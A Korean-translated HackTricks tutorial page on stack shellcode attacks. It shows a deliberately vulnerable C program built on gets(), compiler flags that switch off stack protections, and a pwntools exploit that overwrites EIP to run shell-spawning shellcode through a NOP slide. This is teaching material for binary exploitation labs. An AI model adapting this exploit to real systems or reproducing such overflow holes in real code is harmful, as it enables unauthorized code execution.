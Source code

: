 # Stack Shellcode

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**스택 셸코드**는 공격자가 취약한 프로그램의 스택에 셸코드를 작성한 다음 **명령 포인터 (IP)** 또는 **확장 명령 포인터 (EIP)**를 이 셸코드의 위치를 가리키도록 수정하여 실행되도록 하는 이진 취약점 공격 기법입니다. 이는 무단 접근을 얻거나 대상 시스템에서 임의의 명령을 실행하기 위해 사용되는 고전적인 방법입니다. 다음은 프로세스의 개요와 간단한 C 예제, 그리고 **pwntools**를 사용하여 해당 익스플로잇을 작성하는 방법입니다.

### C Example: A Vulnerable Program

간단한 취약한 C 프로그램의 예로 시작해 보겠습니다:
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```
이 프로그램은 `gets()` 함수를 사용하여 버퍼 오버플로우에 취약합니다.

### 컴파일

이 프로그램을 다양한 보호 기능을 비활성화하여 컴파일하려면 (취약한 환경을 시뮬레이션하기 위해) 다음 명령어를 사용할 수 있습니다:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-fno-stack-protector`: 스택 보호를 비활성화합니다.
* `-z execstack`: 스택을 실행 가능하게 만들어, 스택에 저장된 shellcode를 실행하는 데 필요합니다.
* `-no-pie`: 위치 독립 실행 파일을 비활성화하여, shellcode가 위치할 메모리 주소를 예측하기 쉽게 만듭니다.
* `-m32`: 프로그램을 32비트 실행 파일로 컴파일하여, 익스플로잇 개발의 단순성을 위해 자주 사용됩니다.

### Pwntools를 사용한 Python 익스플로잇

다음은 **pwntools**를 사용하여 **ret2shellcode** 공격을 수행하는 익스플로잇을 Python으로 작성하는 방법입니다:
```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
이 스크립트는 **NOP 슬라이드**, **쉘코드**로 구성된 페이로드를 생성한 다음, **EIP**를 NOP 슬라이드를 가리키는 주소로 덮어써서 쉘코드가 실행되도록 합니다.

**NOP 슬라이드** (`asm('nop')`)는 정확한 주소에 관계없이 실행이 우리의 쉘코드로 "슬라이드"될 가능성을 높이기 위해 사용됩니다. `p32()` 인수를 버퍼의 시작 주소에 오프셋을 더한 값으로 조정하여 NOP 슬라이드에 도달하도록 합니다.

## 보호 조치

* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) **는 비활성화되어야** 주소가 실행 간에 신뢰할 수 있도록 하거나 함수가 저장될 주소가 항상 동일하지 않으며, win 함수가 로드된 위치를 파악하기 위해 어떤 leak이 필요합니다.
* [**스택 카나리**](../common-binary-protections-and-bypasses/stack-canaries/)도 비활성화되어야 하며, 그렇지 않으면 손상된 EIP 반환 주소가 결코 따라가지 않을 것입니다.
* [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md) **스택** 보호는 해당 영역이 실행 가능하지 않기 때문에 스택 내에서 쉘코드의 실행을 방지합니다.

## 기타 예제 및 참조

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
* [https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html)
* 64비트, 스택 주소 leak가 있는 ASLR, 쉘코드를 작성하고 점프하기
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html)
* 32비트, 스택 leak가 있는 ASLR, 쉘코드를 작성하고 점프하기
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html)
* 32비트, 스택 leak가 있는 ASLR, exit() 호출을 방지하기 위한 비교, 변수에 값을 덮어쓰고 쉘코드를 작성하고 점프하기

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나, **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
